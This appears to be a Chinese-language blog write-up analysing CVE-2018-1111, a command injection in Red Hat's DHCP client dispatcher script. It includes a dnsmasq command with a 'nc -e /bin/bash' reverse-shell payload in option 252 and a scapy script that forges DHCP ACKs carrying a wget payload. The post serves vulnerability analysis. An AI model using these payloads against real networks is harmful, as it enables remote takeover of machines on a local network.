 ```yaml
---
layout: post
title: "CVE-2018-1111 Red Hat DHCP客户端命令执行漏洞分析"
---
```


# 0x00 背景

[CVE-2018-1111](https://access.redhat.com/security/vulnerabilities/3442151)具体来说是DHCP client (dhclient) package中的一个脚本文件存在命令注入漏洞，由于DHCP是内网环境下没有认证的UDP数据包，所以攻击场景就是在内网环境下可以伪造DHCP服务器的响应，根据DHCP 252(Private/Proxy autodiscovery) string类型的option，将带单引号的string传入漏洞脚本，完成命令注入。

<!-- more -->

官方的影响版本是Red Hat6、7，实际测试影响的版本是CentOS 7和Fedora28，漏洞脚本则位于`/etc/NetworkManager/dispatcher.d/11-dhclient` (in Red Hat Enterprise Linux 7) 或 `/etc/NetworkManager/dispatcher.d/10-dhclient` (in Red Hat Enterprise Linux 6)。

# 0x01 PoC复现

搭建内网DHCP服务器是关键，CentOS 7作为客户端，Kali作为服务端，在vmware上可以使用同一内网取消自带的DHCP服务，virtualbox的环境配置也一样：

![][1] 

这里取消内置的DHCP服务器是为了我们方便伪造DHCP服务器的响应，和实际攻击场景略有不同。根据[DHCP协议](https://blog.csdn.net/windeal3203/article/details/50677166)，kali上和PoC的payload类似，这里我把租约设置为1min：

```shell
dnsmasq --interface=eth0 --bind-interfaces --except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1m --conf-file=/dev/null --dhcp-option=6,10.1.1.1 --dhcp-option=3,10.1.1.1 --dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #"
```

CentOS7上使用[nmcli](https://access.redhat.com/documentation/zh-cn/red_hat_enterprise_linux/7/html/networking_guide/sec-using_the_networkmanager_command_line_tool_nmcli)来手动重启网卡连接：

```shell
nmcli con down id 'enp0s3'
nmcli con up id 'enp0s3'
```

在kali上进行抓包可以看到DHCP Discover、Offser、Request、ACK的发包请求与响应，最后成功反弹shell：
 
![][2]

# 0x02 PoC分析

在反弹shell后，可以ps看下payload的传递过程：

![][3] 

由于之前nmcli up连接的操作，[nm-dispatcher会](https://github.com/NetworkManager/NetworkManager/blob/master/dispatcher/nm-dispatcher.c)执行`/etc/NetworkManager/dispatcher.d`下面的脚本文件，对应在漏洞脚本11-dhclient中存在命令注入：

![][4]

我在这里将最后要执行的语句输出至文件中，可以看到最后的payload命令拼接情况：

![][5]

这里对于option 252 wpad的字符串分隔符单引号没有转义，闭合后导致命令注入。

PoC在CentOS7上测试成功，但在CentOS6上没有效果，根据原推中的[评论](https://twitter.com/PacketHunt/status/996837371898482689)可知，因为NetworkManager在起dhclient的时候会自动接上对应的conf文件，在CentOS6中DHCP Discover和Request并不会请求252的option，对应也不会解析伪造响应的252 option，也就无法造成命令注入：

![][6]
 
# 0x03 攻击场景

根据man NetwaorkManager 得知，其对不同的网络事件会执行/`etc/NetworkManager/dispatcher.d`下对应的脚本，所以只要能够让dhcp客户端重新获取ip就可以命令注入，思路有三种：

![][7]
 
1. 被动监听数据包，等到主机租约到期发送Request请求时，伪造响应数据包
2. 结合其他DOS漏洞，使主机重新获取dhcp ip
3. 伪造服务端发送DHCPFORCERENEW消息，使客户端重新获取dhcp ip，但此类型属于DHCP协议扩展，需要身份认证而且没有被客户端支持，[无法使用](https://stackoverflow.com/questions/28917135/how-to-force-all-of-the-dhcp-clients-to-renew)

最后给出一个伪造服务端响应的python 利用的示例代码（exploit-db也有[类似脚本](https://www.exploit-db.com/exploits/44652/)）：

```python
from scapy.all import *

def num_hex_str(n):
    num = '%02x' % n
    return num.decode('hex')

def fake_dhcp(pkt):
    sys_mac = '08:00:27:59:1b:51'
    cli_mac = pkt[Ether].src
    cli_mac_hex = ''.join([i.decode('hex') for i in cli_mac.split(':')])
    trans_id = pkt[BOOTP].xid
    for option in pkt[DHCP].options:
        if 'requested_addr' in option:
            req_ip = option[1]
            break
    req_ip = '10.1.1.6'
    shellcode = "x'&wget http://10.1.1.1:1337 #"
    payload = num_hex_str(252)+num_hex_str(len(shellcode))+shellcode+num_hex_str(255)

    print pkt[DHCP].options
    if ('message-type', 3) in pkt[DHCP].options:
        print 'hello'
        dhcp_ack = Ether(src=sys_mac, dst=cli_mac)/IP(src='10.1.1.1', dst=req_ip)/UDP(sport=67, dport=68)/BOOTP(op=2, xid=trans_id, ciaddr=req_ip, yiaddr=req_ip, chaddr=cli_mac_hex)/DHCP(options=[('server_id', '10.1.1.1'), ('message-type', 'ack'), ('lease_time', 120), ('subnet_mask', '255.255.255.0')])/payload
        sendp(dhcp_ack, iface='eth0', verbose=False)

def dhcp_callback(pkt):
    if DHCP in pkt:
        fake_dhcp(pkt)

sniff(prn=dhcp_callback, filter="udp", store=0)
```

在实际的攻击场景中Python发包会比服务器发包慢，无法欺骗客户端执行命令，可考虑使用C语言等更加快速的方式实现攻击。

[1]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu4vebojj20e909ymyw.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafly1frwu4z6ujqj20sp0f2dm0.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu52af5mj20k209278t.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1frwu53bfjbj20ho09mdg9.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafly1frwu54qs40j20e10fjjs1.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu59vidyj21fi0p3ajn.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1frwu5c4bkkj219n08s0w6.jpg
